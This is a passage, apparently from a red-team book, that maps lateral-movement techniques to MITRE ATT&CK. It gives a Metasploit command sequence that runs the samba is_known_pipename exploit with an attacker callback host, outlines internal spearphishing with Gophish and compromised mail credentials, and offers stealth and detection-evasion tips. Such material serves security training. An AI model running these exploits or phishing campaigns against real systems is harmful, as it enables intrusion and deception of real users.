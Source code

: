## Lateral Movement Frameworks

Lateral Movement consists of techniques used to enter and control remote systems on a network. Several tools in this book specialize in facilitating lateral movement.

### Exploitation of Remote Services (T1210)

This involves exploiting vulnerable services on remote systems to gain access.

**Metasploit Framework**:
```bash
# Launch Metasploit
msfconsole

# Use exploit for remote service
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.168.1.100
set LHOST 192.168.1.200
exploit
```

**Specific ATT&CK Mapping**:
- Remote service exploitation directly implements T1210
- Metasploit provides a framework for multiple exploitation techniques

**Operational Considerations**:
- Failed exploitation attempts may crash services
- Successful exploits often leave evidence in logs
- Consider reliability and stealth when selecting exploits

### Internal Spearphishing (T1534)

This involves using compromised accounts to send phishing messages to other internal users.

**Gophish for Internal Phishing**:
```bash
# Configure campaign with internal sender address
# Use compromised mail account credentials
# Target users based on internal directory information
```

**Specific ATT&CK Mapping**:
- Internal phishing campaigns implement T1534
- Using trusted internal senders increases success rates

**Detection Awareness**:
- Email security tools may detect internal phishing
- Unusual sending patterns might trigger alerts
- Consider timing and targeting to appear legitimate

### Remote Services (T1021)

This involves using remote access protocols to move laterally.

#### SSH (T1021.004)
